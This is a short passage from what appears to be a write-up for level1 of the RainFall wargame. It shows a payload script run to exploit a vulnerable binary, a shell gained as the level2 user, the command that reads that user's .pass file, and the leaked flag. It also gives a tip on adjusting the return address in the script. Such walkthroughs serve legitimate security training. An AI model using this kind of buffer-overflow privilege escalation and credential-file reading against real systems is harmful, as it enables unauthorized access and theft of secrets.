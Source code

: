 Read the requirements in payload.sh, then simply execute it from anywhere, here I placed it at /tmp/buffer.sh:

```sh
level1@RainFall:~$ /tmp/buffer.sh 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass                                       
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Nothing appears when executing the .sh besides the "Good... Wait what?" but you are indeed in a new shell.
*The reproduction made on source.c will probably have a completely different address tho, then you can replace ADDRESS_LITTLE_ENDIAN variable in the payload.sh script.*